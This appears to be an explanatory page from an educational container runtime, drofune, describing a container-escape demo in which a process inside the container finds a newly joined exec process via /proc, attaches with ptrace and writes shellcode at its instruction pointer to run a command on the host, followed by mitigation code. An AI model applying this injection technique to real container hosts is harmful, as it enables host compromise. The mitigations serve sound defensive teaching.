


# Insecure Join

This idea is inspired by "Failed approaches" of [the CVE-2019-5736 report](https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html). When an external process enters an existing namespace, it may be able to hijack the process from within the container if it does not fork "after entering all namespaces".

## How does the exploit work?

Run exploits inside a container. Then use `drofune exec` to enter an existing container.


As you can see, the command execution is canceled and `touch hacked` is performed on the host.

First, wait for a new process comes into the container in a loop.

```c
for (found = 0; found == 0;) {
  dir = opendir("/proc");

  for (dp = readdir(dir); dp != NULL; dp = readdir(dir)) {
    int len = 11 + strlen(dp->d_name) + 1;
    char *stat_file = malloc(len);
    snprintf(stat_file, len, "/proc/%s/stat", dp->d_name);
    fp = fopen(stat_file, "r");

    if (fp != NULL) {
      fscanf(fp, "%d %*s %*c %d", &pid, &ppid);
      fclose(fp);
      if (pid != 1 && ppid == 0) {
        printf("Found: %s\n", stat_file);
        found = 1;
        break;
      }
    }
    free(stat_file);
  }
  closedir(dir);
}
```

The PPID of the process that entered the namespace by setns(2) will be 0 (PID 1 is the container's init process, and this also has a PPID of 0)

Next, trace that process with ptrace(2).

```c
ptrace(PTRACE_ATTACH, pid, NULL, NULL);
```

The important thing is that `drofune exec` forks when it enters the PID namespace [**before** entering the mount namespace](https://github.com/wata727/drofune/blob/797f2d28c11c893344d92d34585af56d603cc954/exec.c#L104-L120). Once forked, this process will be visible from inside the container, so it will be controlled by ptrace(2). Worse still, this process belongs to the host's mount namespace.

Finally, rewrite the value of the rip register and insert an arbitrary code.

```c
struct user_regs_struct regs;
ptrace(PTRACE_GETREGS, pid, NULL, &regs);

int size = strlen(shellcode);
char *buf = (char*)malloc(size);
memset(buf, 0x0, size);
memcpy(buf, shellcode, size);
printf("Writing shell code...\n");
int i;
for (i = 0; i < size; i++) {
  ptrace(PTRACE_POKETEXT, pid, regs.rip + i, *(int *)(buf + i));
}

ptrace(PTRACE_DETACH, pid, 0, 0);
```

## Mitigations

Entering the existing container with `--secure-join` option allows to mitigate the vulnerability. When this option is given, fork after entering all namespaces.



```c
for (i = 0; i < namespaces_count; i++) {
  struct namespace ns = namespaces[i];
  enter_namespace(target_pid, ns);
  
  if (ns.value == CLONE_NEWPID) {
    pid = fork();
    if (pid > 0) {
      return pid;
    }
  }
}
```

https://github.com/wata727/drofune/blob/797f2d28c11c893344d92d34585af56d603cc954/exec.c#L104-L120

```c
for (i = 0; i < namespaces_count; i++) {
  struct namespace ns = namespaces[i];
  enter_namespace(target_pid, ns);
}

pid = fork();
```

https://github.com/wata727/drofune/blob/797f2d28c11c893344d92d34585af56d603cc954/exec.c#L131-L139

By forking after joining the mount namespace, you cannot attack the host even if it is ptraced.

It is also good way to drop the `CAP_SYS_PTRACE` capability so that ptrace cannot be run inside containers. You can try it with the `--drop-caps` option.



```c
for (i = 0; i < cap_size; i++) {
  prctl(PR_CAPBSET_DROP, caps[i], 0, 0, 0);
}
```

https://github.com/wata727/drofune/blob/797f2d28c11c893344d92d34585af56d603cc954/exec.c#L83-L89
https://github.com/wata727/drofune/blob/797f2d28c11c893344d92d34585af56d603cc954/drop_caps.c#L60-L65

In runc and crun, forks after joining all namespaces. Also, `CAP_SYS_TRACE` is dropped, and the ptrace(2) system call is filtered with seccomp.

Also, the lack of capabilities can be bypassed by performing unshare(2), but it cannot be reproduced in Drofune. According to man page of unshare(2):

> EPERM (since Linux 3.9) CLONE_NEWUSER was specified in flags and the caller is in a chroot environment (i.e., the caller's root directory does not match the root directory of the mount namespace in which it resides).

Because Drofune requires Linux kernel 3.18 or more, unshare(2) does not succeed in all environments.

runc and crun also have limited system calls for namespaces, so older Linux kernels cannot reproduce this problem.

## References

- [CVE-2019-5736: Escape from Docker and Kubernetes containers to root on host](https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html)
- [コンピュータハイジャッキング / 酒井 和哉 著](https://www.ohmsha.co.jp/book/9784274222740/) (Japanese)
